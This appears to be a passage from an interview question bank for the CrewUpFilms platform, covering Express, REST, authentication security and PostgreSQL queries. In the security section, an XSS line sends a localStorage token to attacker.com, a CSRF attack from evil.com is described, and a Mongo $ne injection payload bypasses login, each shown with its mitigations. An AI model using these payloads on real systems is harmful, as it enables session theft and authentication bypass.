- `process.nextTick()` schedules a callback to be executed immediately after the currently executing script completes, before the event loop continues to any other phase or microtask queue. It runs ahead of `Promise.then()`.
- `setImmediate()` schedules a callback to run in the Check phase of the event loop, after I/O callbacks have executed.
Calling `process.nextTick()` recursively can cause I/O starvation by continuously postponing the event loop.
- **Difficulty**: Hard | **Priority**: P3

---

## C3. Express and REST API Design

### Q40: Explain Middleware Ordering in Express (server.js breakdown)
- **Model Answer**: In Express, middleware functions execute sequentially in the exact order they are registered via `app.use()`. The order in CrewUpFilms `server.js` is deliberately architected:
1. `helmet()` runs first to inject secure HTTP response headers before any data is sent.
2. `compression()` sits early to compress outbound HTTP responses.
3. `cors()` handles preflight OPTIONS checks and origin validation immediately.
4. `morgan()` logs incoming requests.
5. `express.json()` and `express.urlencoded()` parse incoming request bodies.
6. Rate limiters (`authLimiter`, `generalLimiter`) intercept traffic to prevent abuse before application routes execute.
7. Route handlers (`/api/auth`, `/api/projects`) process business logic.
8. 404 Catch-all runs if no route matches.
9. `errorHandler` runs last to capture any errors passed via `next(err)`.
- **Difficulty**: Medium | **Priority**: P1

### Q41: The 4-Argument Error Middleware Signature
- **Model Answer**: In Express, an error-handling middleware is explicitly identified by its 4-argument signature: `(err, req, res, next)`. Express uses function arity (`fn.length === 4`) via JavaScript function reflection to distinguish error middleware from standard middleware `(req, res, next)`. If you omit `next` or provide only 3 arguments, Express treats it as regular middleware, and it will never receive errors thrown or passed via `next(err)`. It must be mounted after all route declarations so that errors bubbled from any route flow downward into it.
- **Difficulty**: Medium | **Priority**: P1

### Q42: Route Parameters vs Query Strings vs Request Body
- **Model Answer**:
- **Route Parameters (`req.params`)**: Used to identify a specific resource in the URL hierarchy. Example: `GET /api/projects/:id` (identifies project by unique ID).
- **Query Strings (`req.query`)**: Used to filter, sort, paginate, or search resources without changing the resource identity. Example: `GET /api/projects?type=feature&status=open&page=2`.
- **Request Body (`req.body`)**: Used to transmit structured payloads containing data to create or update resources (typically JSON in POST, PUT, PATCH requests). Example: `POST /api/projects` with payload `{ title, description }`.
- **Difficulty**: Easy | **Priority**: P1

### Q43: Express-Validator: Adding Validation to a Route
- **Model Answer**: While CrewUpFilms validates auth routes, here is how to validate project creation (`POST /api/projects`):
```javascript
const { body, validationResult } = require('express-validator');

const validateCreateProject = [
  body('title').trim().notEmpty().withMessage('Title is required').isLength({ max: 150 }),
  body('description').trim().isLength({ min: 20 }).withMessage('Description must be at least 20 chars'),
  body('projectType').isIn(['short', 'feature', 'documentary', 'commercial', 'music-video']),
  body('isPaid').isBoolean().withMessage('isPaid must be a boolean'),
  (req, res, next) => {
    const errors = validationResult(req);
    if (!errors.isEmpty()) {
      return res.status(400).json({ success: false, errors: errors.array() });
    }
    next();
  }
];

router.post('/', protect, validateCreateProject, createProject);
```
- **Difficulty**: Medium | **Priority**: P1

### Q44: Rate Limiting Implementation in server.js
- **Model Answer**: The rate limiting in `server.js` uses `express-rate-limit`:
```javascript
const authLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15-minute window
  max: 20,                  // 20 requests per IP per window
  standardHeaders: true,    // Returns RateLimit-* headers
  legacyHeaders: false,
  message: { success: false, message: 'Too many attempts, please try again later.' },
  skip: () => process.env.NODE_ENV === 'development'
});
```
It maintains an in-memory hit counter keyed by client IP (`req.ip`). When a request arrives, it checks if hits exceed `max`. If exceeded, it terminates the request with HTTP 429. `standardHeaders: true` sends `RateLimit-Limit`, `RateLimit-Remaining`, and `RateLimit-Reset` headers.
- **Difficulty**: Medium | **Priority**: P1

### Q45: Pagination: Offset/Skip vs Cursor-Based
- **Model Answer**:
- **Offset/Skip (`skip + limit`)**:
```javascript
const page = parseInt(req.query.page) || 1;
const limit = 10;
const projects = await Project.find().skip((page - 1) * limit).limit(limit).sort({ createdAt: -1 });
```
*Drawback*: Degrades at scale because MongoDB must scan and discard all preceding documents ($O(N)$ write/read cursor scan). If new records are added, users see duplicate items across pages.
- **Cursor-Based Pagination**:
```javascript
const cursor = req.query.cursor; // ISO timestamp or ObjectId
const query = cursor ? { _id: { $lt: cursor } } : {};
const projects = await Project.find(query).sort({ _id: -1 }).limit(10);
```
*Advantage*: Uses indexed B-tree lookups ($O(\log N)$), constant memory, and never skips or duplicates records even during active inserts.
- **Difficulty**: Hard | **Priority**: P1

### Q46: File Upload with Multer (Architecture Blueprint)
- **Model Answer**: CrewUpFilms currently passes base64 strings. To implement standard multipart/form-data file uploads:
```javascript
const multer = require('multer');
const path = require('path');

const storage = multer.memoryStorage(); // hold file buffer in memory
const fileFilter = (req, file, cb) => {
  const allowed = /jpeg|jpg|png|webp|pdf/;
  const ext = allowed.test(path.extname(file.originalname).toLowerCase());
  const mime = allowed.test(file.mimetype);
  if (ext && mime) cb(null, true);
  else cb(new Error('Only images and PDFs allowed!'), false);
};

const upload = multer({ storage, limits: { fileSize: 5 * 1024 * 1024 }, fileFilter });
router.post('/upload', protect, upload.single('media'), uploadController);
```
The controller then streams `req.file.buffer` to AWS S3.
- **Difficulty**: Medium | **Priority**: P1

### Q47: OpenAPI / Swagger Documentation
- **Model Answer**: Swagger annotation for `POST /api/auth/register`:
```yaml
/**
 * @openapi
 * /api/auth/register:
 *   post:
 *     summary: Register a new filmmaker account
 *     tags: [Auth]
 *     requestBody:
 *       required: true
 *       content:
 *         application/json:
 *           schema:
 *             type: object
 *             required: [name, username, email, password]
 *             properties:
 *               name: { type: string, example: "Jane Doe" }
 *               username: { type: string, example: "janedoe" }
 *               email: { type: string, format: email, example: "jane@cinema.com" }
 *               password: { type: string, format: password, minLength: 6 }
 *     responses:
 *       201:
 *         description: User registered successfully; verification email sent
 *       400:
 *         description: Validation error or email already in use
 */
```
- **Difficulty**: Medium | **Priority**: P2

### Q48: CORS Preflight Requests: What They Are and How They Work
- **Model Answer**: A CORS preflight request is an automatic HTTP check sent by the browser using the `OPTIONS` method before executing the actual request. It occurs when a cross-origin request is "complex"—such as when using methods other than GET/POST/HEAD, or when attaching custom headers like `Authorization: Bearer <token>`, or using `Content-Type: application/json`. The browser sends `OPTIONS /api/projects` with headers `Origin`, `Access-Control-Request-Method`, and `Access-Control-Request-Headers`. The Express server's `cors()` middleware checks if the origin is allowed and responds with `204 No Content` and `Access-Control-Allow-Origin`, `Access-Control-Allow-Methods`, and `Access-Control-Allow-Headers`. If valid, the browser executes the real request.
- **Difficulty**: Medium | **Priority**: P1

### Q49: HTTP Caching Headers: ETag and Cache-Control
- **Model Answer**:
- `Cache-Control`: Informs clients and CDNs how to cache responses. E.g., for public explore listings: `res.set('Cache-Control', 'public, max-age=300, stale-while-revalidate=60')`. For authenticated user endpoints: `res.set('Cache-Control', 'no-store')`.
- `ETag` (Entity Tag): An HTTP response header containing an MD5/hash digest of the response body. On subsequent requests, the browser sends `If-None-Match: <etag>`. Express automatically evaluates this: if the content has not changed, it sends `304 Not Modified` with an empty body, saving significant bandwidth.
- **Difficulty**: Medium | **Priority**: P2

### Q50: Idempotency in REST APIs
- **Model Answer**: An HTTP method is idempotent if making the same request multiple times produces the exact same server state as making it once.
- `GET`, `HEAD`, `OPTIONS`: Idempotent and safe (no state mutation).
- `PUT`: Idempotent (replacing a resource with the same payload results in the exact same state).
- `DELETE`: Idempotent (deleting resource ID 5 removes it; subsequent deletes still leave it absent).
- `POST`: Non-idempotent (submitting `POST /api/projects` repeatedly creates multiple distinct project records).
To make POST idempotent (e.g., payments), clients pass an `Idempotency-Key` header cached in Redis.
- **Difficulty**: Medium | **Priority**: P2

### Q51: Semantic HTTP Status Codes
- **Model Answer**:
- `200 OK`: Standard successful response.
- `201 Created`: Resource created successfully (e.g., user registered, project posted).
- `204 No Content`: Action succeeded, no payload returned (e.g., delete project).
- `400 Bad Request`: Client validation error or malformed JSON syntax.
- `401 Unauthorized`: Authentication missing or token expired.
- `403 Forbidden`: Authenticated, but lacking permission (e.g., non-creator attempting to edit a project).
- `404 Not Found`: Resource does not exist.
- `409 Conflict`: Unique constraint violation (e.g., email already registered, duplicate application).
- `422 Unprocessable Entity`: Syntactically correct JSON but failed semantic business rules.
- `429 Too Many Requests`: Rate limit threshold exceeded.
- `500 Internal Server Error`: Unhandled server exception.
- **Difficulty**: Easy | **Priority**: P1

### Q52: Safe vs Unsafe HTTP Methods
- **Model Answer**: Safe HTTP methods are read-only operations that do not alter the server's state (`GET`, `HEAD`, `OPTIONS`, `TRACE`). Search engine crawlers and web caches can invoke them repeatedly without causing side effects. Unsafe methods mutate server state (`POST`, `PUT`, `PATCH`, `DELETE`). They should never be triggered via simple anchor tags or GET requests to protect against CSRF and unintended data loss.
- **Difficulty**: Easy | **Priority**: P2

### Q53: API Versioning Strategies
- **Model Answer**:
1. **URI Path Versioning (Recommended)**: `https://api.crewupfilms.com/v1/projects`. Explicit, human-readable, easily routed at the Nginx or API gateway level.
2. **Query Parameter Versioning**: `https://api.crewupfilms.com/projects?v=1`. Simple, but complicates CDN caching keys.
3. **Custom Request Header**: `X-API-Version: 1`. Keeps URLs clean, but harder to test directly in standard browser URLs.
4. **Accept Header (Content Negotiation)**: `Accept: application/vnd.crewup.v1+json`. Follows strict REST doctrine, but complex for client integrations.
- **Difficulty**: Medium | **Priority**: P2

### Q54: Graceful Degradation and Circuit Breaker Pattern
- **Model Answer**: When an external dependency fails (such as the email provider or YouTube validation API), a circuit breaker tracks failure rates over a sliding window. It has 3 states:
- **Closed**: Requests flow normally.
- **Open**: When errors exceed a threshold (e.g., 50%), the breaker trips; requests fail immediately or return fallback responses without calling the broken service.
- **Half-Open**: After a cooldown period, trial requests are allowed through. If successful, it resets to Closed; if they fail, it trips Open again.
This prevents cascading thread exhaustion across Node.js servers.
- **Difficulty**: Hard | **Priority**: P3

---

## C4. Authentication and Security

### Q55: JWT Anatomy: Header, Payload, Signature
- **Model Answer**: A JSON Web Token (JWT) is a cryptographically compact string composed of three Base64URL-encoded segments separated by periods (`header.payload.signature`):
```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI2NTRhYmMiLCJyb2xlIjoiZGlyZWN0b3IiLCJpYXQiOjE3MTExMTEsImV4cCI6MTcxMTcxMX0.4Zb7x...
```
1. **Header**: Specifies the token type (`JWT`) and signing algorithm (`HS256`).
2. **Payload**: Contains claims—in CrewUpFilms: `{ userId: "...", role: "director", iat: ..., exp: ... }`. It is Base64 encoded, NOT encrypted; anyone can decode it. Never place sensitive secrets (passwords, API keys) in the payload!
3. **Signature**: Computed by taking `HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), process.env.JWT_SECRET)`. This verifies that the sender is authentic and the payload has not been tampered with.
- **Difficulty**: Easy | **Priority**: P1

### Q56: JWT vs Server-Side Sessions
- **Model Answer**:
| Dimension | JWT (Stateless) | Session (Stateful) |
| :--- | :--- | :--- |
| **Storage** | Stored on client; validated via cryptographic signature. | Session ID in cookie; full session data in Redis/DB. |
| **Scalability** | High horizontal scalability; zero database lookup needed to verify. | Requires centralized session store (Redis) across multiple server instances. |
| **Revocation** | Difficult; valid until `exp` unless a token blacklist is checked against DB/cache. | Instantaneous; delete session key from Redis. |
| **Payload Size** | Larger (hundreds of bytes transmitted on every HTTP request). | Small (~32-character session ID string). |
- **Difficulty**: Medium | **Priority**: P1

### Q57: Implementing Refresh Tokens in CrewUpFilms
- **Model Answer**: Currently, CrewUpFilms uses a single 7-day token. To migrate to an industry-standard refresh token architecture:
1. Shorten the access token lifetime to 15 minutes.
2. In `generateToken.js`, generate both an access token and a cryptographically secure 64-byte refresh token (`crypto.randomBytes(64).toString('hex')`).
3. Store the SHA-256 hash of the refresh token in a MongoDB `RefreshToken` collection `{ userId, tokenHash, expiresAt }`.
4. Send the refresh token to the client inside an `httpOnly`, `Secure`, `SameSite=Strict` cookie, while returning the access token in the JSON body.
5. Create endpoint `POST /api/auth/refresh`: it extracts the cookie, hashes it, checks MongoDB, validates that it has not expired or been revoked, and issues a new access token and rotated refresh token.
- **Difficulty**: Hard | **Priority**: P1

### Q58: bcrypt Mechanics: Salt, 12 Rounds, and Rainbow Tables
- **Model Answer**: `bcrypt` is an adaptive key derivation function based on the Blowfish cipher:
- **Salt**: A cryptographically random string generated uniquely for each password and concatenated prior to hashing. This ensures two users with the password `"password123"` have completely different hashes, neutralizing pre-computed Rainbow Table attacks.
- **Cost Factor (12 rounds)**: Specifies $2^{12} = 4096$ iterations of the key expansion algorithm. This makes brute-force cracking computationally expensive (~250ms per attempt on modern CPUs), thwarting high-speed GPU dictionary attacks while keeping login latency imperceptible to real users.
- **Difficulty**: Medium | **Priority**: P1

### Q59: Google OAuth Verification: The tokeninfo Flow
- **Model Answer**: In CrewUpFilms `authController.js`, Google OAuth is verified via Google's `tokeninfo` endpoint:
1. The frontend initiates Google One-Tap or Google Identity Services button, obtaining a signed JWT credential (`id_token`).
2. The client POSTs `{ token: id_token }` to `/api/auth/google`.
3. The backend makes an HTTPS request to `https://oauth2.googleapis.com/tokeninfo?id_token=${token}`.
4. Google returns the decoded token claims: `{ sub, email, name, picture, email_verified }`.
5. The controller verifies that `sub` exists, checks if `email_verified` is true, and finds or creates a user matching `googleId: sub` or `email: email`.
6. Finally, the server issues its own internal 7-day JWT to maintain platform session consistency.
- **Difficulty**: Medium | **Priority**: P1

### Q60: OWASP Top 10 in CrewUpFilms
- **Model Answer**:
1. **Broken Access Control**: Enforced using `protect` middleware and checking resource ownership (`project.createdBy.toString() === req.user._id.toString()`) before allowing updates or deletes.
2. **Cryptographic Failures**: Passwords hashed with bcrypt (salt 12); reset tokens hashed via SHA-256; TLS enforced in production.
3. **Injection**: MongoDB Mongoose object modeling abstracts queries into typed BSON objects, preventing classic SQL injection.
4. **Security Misconfiguration**: Handled by `helmet()` to set secure HTTP headers (HSTS, X-Content-Type-Options) and disabling `X-Powered-By`.
5. **Identification and Authentication Failures**: Implemented rate limiting on auth endpoints (20 req / 15 min) and email OTP verification.
- **Difficulty**: Hard | **Priority**: P1

### Q61: XSS Vulnerability: localStorage vs httpOnly Cookie
- **Model Answer**: Storing JWTs in `localStorage` exposes them to Cross-Site Scripting (XSS). If an attacker injects malicious JavaScript via a compromised third-party npm package, user bio, or unescaped HTML template, they can execute:
`fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'));`
This completely exfiltrates the user's session. In contrast, `httpOnly` cookies cannot be accessed or read by client-side JavaScript (`document.cookie` returns empty for httpOnly cookies), neutralizing token theft via XSS attacks.
- **Difficulty**: Medium | **Priority**: P1

### Q62: CSRF Attacks and When JWT is at Risk
- **Model Answer**: Cross-Site Request Forgery (CSRF) occurs when a malicious website tricks a victim's browser into executing an unauthorized action on a trusted application where the victim is authenticated.
- **With `localStorage` + `Bearer` header**: CSRF is practically impossible because the browser does NOT automatically attach headers; JavaScript must explicitly set the `Authorization` header.
- **With Cookies**: If the JWT is stored in an `httpOnly` cookie, the browser automatically attaches the cookie to cross-origin requests. An attacker can craft a hidden form on `evil.com` submitting to `crewupfilms.com/api/projects/delete`. This is mitigated using `SameSite=Lax` or `Strict` cookie attributes and anti-CSRF challenge tokens.
- **Difficulty**: Medium | **Priority**: P1

### Q63: Password Reset Security: Why Hash the Reset Token?
- **Model Answer**: In CrewUpFilms, when a user requests a password reset, the server generates an unhashed random token via `crypto.randomBytes(32).toString('hex')`. It then computes a SHA-256 hash:
`const hashedToken = crypto.createHash('sha256').update(rawToken).digest('hex');`
The `hashedToken` and expiration timestamp are saved to the MongoDB user document, while the `rawToken` is emailed in the reset link (`crewupfilms.com/reset-password?token=${rawToken}`).
*Security Rationale*: If the database is compromised via a backup leak or read-only SQL/NoSQL injection, the attacker only obtains the hashed token. Because SHA-256 is a one-way function, they cannot reverse it to determine the raw token needed to reset the user's password.
- **Difficulty**: Hard | **Priority**: P1

### Q64: Email Enumeration Prevention in forgotPassword
- **Model Answer**: Email enumeration is an attack where malicious actors probe a login or forgot-password form to determine whether specific email addresses are registered on the platform. If the API returns `"User not found"` for unregistered emails and `"Reset email sent"` for registered ones, attackers can harvest registered users. To prevent this, the `forgotPassword` controller always returns the exact same generic response:
`res.status(200).json({ success: true, message: 'If an account matches that email, a password reset link has been sent.' });`
regardless of whether the user exists in the database.
- **Difficulty**: Easy | **Priority**: P2

### Q65: Rate Limiting Algorithms: Fixed Window vs Sliding Log vs Token Bucket
- **Model Answer**:
- **Fixed Window (used in express-rate-limit)**: Counts requests in discrete time intervals (e.g., 00:00–00:15). *Weakness*: Burst traffic at the boundary (e.g., 20 requests at 00:14 and 20 at 00:16) permits double the allowed rate.
- **Sliding Window Log**: Stores timestamps of every request in a Redis sorted set. Drops timestamps older than $(now - window)$. Highly accurate, but high memory overhead.
- **Token Bucket**: A bucket fills with tokens at a constant rate up to capacity. Each request consumes a token. If the bucket is empty, requests are dropped. Allows controlled bursts while maintaining steady long-term limits.
- **Difficulty**: Hard | **Priority**: P2

### Q66: Content Security Policy (CSP) and Helmet Defaults
- **Model Answer**: `helmet()` automatically injects standard HTTP security headers:
- `Content-Security-Policy`: Restricts the sources from which scripts, styles, images, and fonts can load (blocking malicious inline scripts).
- `Strict-Transport-Security` (HSTS): Forces browsers to communicate exclusively over HTTPS.
- `X-Frame-Options: SAMEORIGIN`: Prevents clickjacking by blocking the site from being rendered inside an iframe on third-party domains.
- `X-Content-Type-Options: nosniff`: Prevents MIME-type sniffing attacks.
- `X-XSS-Protection`: Enables legacy browser XSS filters.
- **Difficulty**: Medium | **Priority**: P2

### Q67: Secure Password Storage: Why Not MD5 or SHA-256?
- **Model Answer**: General-purpose cryptographic hash functions like MD5, SHA-1, and SHA-256 were designed for high-speed file checksums and digital signatures. A modern consumer GPU can compute billions of SHA-256 hashes per second. If a database using raw SHA-256 is leaked, an attacker can crack typical passwords in seconds using brute-force and dictionary attacks. Password hashing requires intentionally slow, resource-intensive key derivation algorithms like `bcrypt`, `Argon2id`, or `PBKDF2`, which include configurable work factors to keep cracking speeds impractically slow.
- **Difficulty**: Easy | **Priority**: P2

### Q68: Authorization: Role-Based (RBAC) vs Attribute-Based (ABAC)
- **Model Answer**:
- **RBAC (Role-Based Access Control)**: Permissions are assigned to static roles (e.g., `admin`, `creator`, `member`). The middleware checks if `user.role === 'admin'`. CrewUpFilms uses RBAC for routes like `/api/admin`.
- **ABAC (Attribute-Based Access Control)**: Permissions evaluate dynamic context: user attributes, resource attributes, and environmental conditions (e.g., "Allow user to edit project IF user is creator AND project status is draft AND time is before deadline"). CrewUpFilms applies ABAC in project editing: checking both `req.user.role` and `project.createdBy.equals(req.user._id)`.
- **Difficulty**: Medium | **Priority**: P2

### Q69: NoSQL Injection in Mongoose
- **Puzzle**: How can an attacker bypass authentication without knowing the password?
```javascript
// Attacker sends: { "email": "admin@crewupfilms.com", "password": { "$ne": null } }
const user = await User.findOne({ email: req.body.email, password: req.body.password });
```
- **Explanation**: If input is unvalidated, MongoDB query selectors like `$ne` (not equal) are parsed as query operators rather than literal strings. The query checks if the password is not null, evaluating to true and authenticating the admin.
*Mitigation*: Use `express-mongo-sanitize` to strip `$` and `.` characters from incoming bodies, or enforce strict string types using `express-validator`.
- **Difficulty**: Hard | **Priority**: P1


---

## C5. PostgreSQL and SQL

### Relational Schema Definition (CrewUpFilms PostgreSQL Equivalent)

```sql
-- Enable UUID extension
CREATE EXTENSION IF NOT EXISTS "pgcrypto";

-- 1. Users Table
CREATE TABLE users (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  uid VARCHAR(20) UNIQUE NOT NULL,
  name VARCHAR(100) NOT NULL,
  username VARCHAR(30) UNIQUE NOT NULL,
  email VARCHAR(255) UNIQUE NOT NULL,
  password_hash VARCHAR(255),
  google_id VARCHAR(255) UNIQUE,
  auth_provider VARCHAR(10) DEFAULT 'local',
  role VARCHAR(50) DEFAULT 'other',
  profile_image TEXT DEFAULT '',
  is_active BOOLEAN DEFAULT true,
  is_suspended BOOLEAN DEFAULT false,
  is_admin BOOLEAN DEFAULT false,
  is_email_verified BOOLEAN DEFAULT false,
  created_at TIMESTAMP DEFAULT NOW(),
  updated_at TIMESTAMP DEFAULT NOW()
);

-- 2. Profiles Table
CREATE TABLE profiles (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  user_id UUID UNIQUE NOT NULL REFERENCES users(id) ON DELETE CASCADE,
  bio VARCHAR(500) DEFAULT '',
  experience_level VARCHAR(20) DEFAULT 'beginner',
  availability VARCHAR(20) DEFAULT 'available',
  is_mentor BOOLEAN DEFAULT false,
  is_verified BOOLEAN DEFAULT false,
  created_at TIMESTAMP DEFAULT NOW()
);

-- 3. Projects Table
CREATE TABLE projects (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  title VARCHAR(150) NOT NULL,
  description TEXT NOT NULL,
  project_type VARCHAR(30) NOT NULL,
  is_paid BOOLEAN DEFAULT false,
  status VARCHAR(20) DEFAULT 'open',
  created_by UUID NOT NULL REFERENCES users(id),
  moderation_status VARCHAR(20) DEFAULT 'pending',
  risk_score INTEGER DEFAULT 0,
  is_draft BOOLEAN DEFAULT false,
  created_at TIMESTAMP DEFAULT NOW(),
  updated_at TIMESTAMP DEFAULT NOW()
);

-- 4. Project Required Roles Table
CREATE TABLE project_required_roles (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  project_id UUID NOT NULL REFERENCES projects(id) ON DELETE CASCADE,
  role_name VARCHAR(100) NOT NULL
);

-- 5. Team Members Table
CREATE TABLE team_members (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  project_id UUID NOT NULL REFERENCES projects(id) ON DELETE CASCADE,
  user_id UUID NOT NULL REFERENCES users(id),
  role VARCHAR(100) NOT NULL,
  joined_at TIMESTAMP DEFAULT NOW(),
  UNIQUE(project_id, user_id, role)
);

-- 6. Applications Table
CREATE TABLE applications (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  project_id UUID NOT NULL REFERENCES projects(id) ON DELETE CASCADE,
  applicant_id UUID NOT NULL REFERENCES users(id),
  role_applying_for VARCHAR(100) NOT NULL,
  message TEXT NOT NULL,
  status VARCHAR(20) DEFAULT 'pending',
  reviewed_at TIMESTAMP,
  review_note TEXT DEFAULT '',
  created_at TIMESTAMP DEFAULT NOW(),
  UNIQUE(project_id, applicant_id, role_applying_for)
);

-- 7. Follows Table
CREATE TABLE follows (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  follower_id UUID NOT NULL REFERENCES users(id),
  following_id UUID NOT NULL REFERENCES users(id),
  created_at TIMESTAMP DEFAULT NOW(),
  UNIQUE(follower_id, following_id)
);

-- 8. Conversations Table
CREATE TABLE conversations (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  status VARCHAR(10) DEFAULT 'active',
  last_message TEXT DEFAULT '',
  last_message_at TIMESTAMP,
  created_at TIMESTAMP DEFAULT NOW()
);

-- 9. Conversation Members Table
CREATE TABLE conversation_members (
  conversation_id UUID NOT NULL REFERENCES conversations(id) ON DELETE CASCADE,
  user_id UUID NOT NULL REFERENCES users(id),
  PRIMARY KEY (conversation_id, user_id)
);

-- 10. Messages Table
CREATE TABLE messages (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  sender_id UUID NOT NULL REFERENCES users(id),
  conversation_id UUID REFERENCES conversations(id),
  text VARCHAR(2000) NOT NULL,
  created_at TIMESTAMP DEFAULT NOW()
);

-- 11. Notifications Table
CREATE TABLE notifications (
  id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
  recipient_id UUID NOT NULL REFERENCES users(id),
  sender_id UUID REFERENCES users(id),
  type VARCHAR(50) NOT NULL,
  title VARCHAR(255) NOT NULL,
  message TEXT NOT NULL,
  link VARCHAR(500) DEFAULT '',
  is_read BOOLEAN DEFAULT false,
  created_at TIMESTAMP DEFAULT NOW()
);
```

---

### 25 Hands-On SQL Problems & Solutions

#### Problem 1: Get all open projects with creator's name and follower count
- **Query**:
```sql
SELECT 
  p.id AS project_id,
  p.title,
  p.project_type,
  u.name AS creator_name,
  u.username AS creator_username,
  COUNT(f.follower_id) AS follower_count
FROM projects p
JOIN users u ON p.created_by = u.id
LEFT JOIN follows f ON u.id = f.following_id
WHERE p.status = 'open' 
  AND p.is_draft = false 
  AND p.moderation_status = 'approved'
GROUP BY p.id, p.title, p.project_type, u.name, u.username;
```
- **Explanation**: Joins `projects` with `users` on `created_by`. Uses `LEFT JOIN` on `follows` so creators with 0 followers are still returned. Filters for open, approved, non-draft projects and groups by unique project and user keys to aggregate follower counts.
- **Index Recommendation**: `CREATE INDEX idx_projects_status ON projects(status, is_draft, moderation_status);` and `CREATE INDEX idx_follows_following ON follows(following_id);`
- **EXPLAIN Reasoning**: Without the composite index on `projects`, PostgreSQL performs a sequential scan over all projects. With it, an Index Scan filters active projects, followed by Hash Aggregate on creator followers.

#### Problem 2: Find users who have applied to more than 3 projects
- **Query**:
```sql
SELECT 
  u.id, 
  u.name, 
  u.email, 
  COUNT(DISTINCT a.project_id) AS applied_projects_count
FROM users u
JOIN applications a ON u.id = a.applicant_id
GROUP BY u.id, u.name, u.email
HAVING COUNT(DISTINCT a.project_id) > 3;
```
- **Explanation**: Groups applications by applicant and filters post-aggregation using the `HAVING` clause. `COUNT(DISTINCT a.project_id)` ensures multiple role applications on the same project only count once.
- **Index Recommendation**: `CREATE INDEX idx_applications_applicant ON applications(applicant_id, project_id);`
- **EXPLAIN Reasoning**: An index-only scan on `(applicant_id, project_id)` avoids touching table heap pages, feeding directly into a HashAggregate.

#### Problem 3: Get the top 5 users by number of accepted applications
- **Query**:
```sql
SELECT 
  u.id, 
  u.name, 
  u.role, 
  COUNT(a.id) AS accepted_count
FROM users u
JOIN applications a ON u.id = a.applicant_id
WHERE a.status = 'accepted'
GROUP BY u.id, u.name, u.role
ORDER BY accepted_count DESC
LIMIT 5;
```
- **Explanation**: Filters applications strictly where `status = 'accepted'`, aggregates by user, orders descending, and limits to the top 5 results.
- **Index Recommendation**: `CREATE INDEX idx_applications_status_applicant ON applications(status, applicant_id);`
- **EXPLAIN Reasoning**: Allows an index scan on `status = 'accepted'`, quickly retrieving matching applicant IDs for grouping.

#### Problem 4: Find projects where all required roles are filled
- **Query**:
```sql
WITH required AS (
  SELECT project_id, COUNT(*) AS req_count
  FROM project_required_roles
  GROUP BY project_id
),
filled AS (
  SELECT project_id, COUNT(*) AS member_count
  FROM team_members
  GROUP BY project_id
)
SELECT 
  p.id, 
  p.title, 
  r.req_count, 
  COALESCE(f.member_count, 0) AS member_count
FROM projects p
JOIN required r ON p.id = r.project_id
LEFT JOIN filled f ON p.id = f.project_id
WHERE COALESCE(f.member_count, 0) >= r.req_count;
```
- **Explanation**: Uses two Common Table Expressions (CTEs) to pre-aggregate required role counts and active team member counts per project, then returns projects where team member count meets or exceeds requirement.
- **Index Recommendation**: `CREATE INDEX idx_team_members_project ON team_members(project_id);` and `CREATE INDEX idx_req_roles_project ON project_required_roles(project_id);`
- **EXPLAIN Reasoning**: Eliminates full table scans; both CTEs perform fast HashAggregates over indexed foreign keys.

#### Problem 5: Get unread notification count per user
- **Query**:
```sql
SELECT 
  recipient_id, 
  COUNT(*) AS unread_notifications
FROM notifications
WHERE is_read = false
GROUP BY recipient_id;
```
- **Explanation**: Standard aggregation counting rows matching `is_read = false` grouped by user.
- **Index Recommendation**: `CREATE INDEX idx_notifs_unread ON notifications(recipient_id) WHERE is_read = false;` (Partial Index)
- **EXPLAIN Reasoning**: A partial index is tiny compared to indexing the entire table, indexing only unread notifications. EXPLAIN will show a fast Bitmap Index Scan.

#### Problem 6: Find most active creators in last 30 days
- **Query**:
```sql
SELECT 
  u.id, 
  u.name, 
  COUNT(p.id) AS projects_created
FROM users u
JOIN projects p ON u.id = p.created_by
WHERE p.created_at >= NOW() - INTERVAL '30 days'
GROUP BY u.id, u.name
ORDER BY projects_created DESC
LIMIT 10;
```
- **Explanation**: Filters projects created within the last 30 days, joins with users, aggregates counts, and orders descending.
- **Index Recommendation**: `CREATE INDEX idx_projects_created_at ON projects(created_at, created_by);`
- **EXPLAIN Reasoning**: Enables an Index Range Scan on `created_at >= NOW() - INTERVAL '30 days'` to quickly identify creators without scanning the entire table.

#### Problem 7: Get all followers of a user with profile info
- **Query**:
```sql
SELECT 
  u.id AS follower_id,
  u.name,
  u.username,
  p.bio,
  p.experience_level,
  f.created_at AS followed_at
FROM follows f
JOIN users u ON f.follower_id = u.id
LEFT JOIN profiles p ON u.id = p.user_id
WHERE f.following_id = 'a0000000-0000-0000-0000-000000000001'::uuid
ORDER BY f.created_at DESC;
```
- **Explanation**: Filters the `follows` table by the target user ID (`following_id`), then joins the follower's `users` and `profiles` records.
- **Index Recommendation**: `CREATE INDEX idx_follows_target ON follows(following_id, created_at DESC);`
- **EXPLAIN Reasoning**: Uses an Index Scan on `following_id` which yields pre-sorted results, eliminating an expensive in-memory Quicksort.

#### Problem 8: Find mutual follows between two users
- **Query**:
```sql
SELECT f1.following_id AS mutual_user_id, u.name, u.username
FROM follows f1
JOIN follows f2 ON f1.following_id = f2.following_id
JOIN users u ON f1.following_id = u.id
WHERE f1.follower_id = 'a1111111-1111-1111-1111-111111111111'::uuid
  AND f2.follower_id = 'b2222222-2222-2222-2222-222222222222'::uuid;
```
- **Explanation**: Self-joins the `follows` table on `following_id` where follower 1 is User A and follower 2 is User B, discovering accounts both users follow.
- **Index Recommendation**: `CREATE INDEX idx_follows_pair ON follows(follower_id, following_id);`
- **EXPLAIN Reasoning**: Converts the query into two index lookups followed by a Nested Loop Join or Hash Join.

#### Problem 9: Get project applications grouped by status with count
- **Query**:
```sql
SELECT 
  project_id,
  status,
  COUNT(*) AS total_applications
FROM applications
WHERE project_id = 'p3333333-3333-3333-3333-333333333333'::uuid
GROUP BY project_id, status;
```
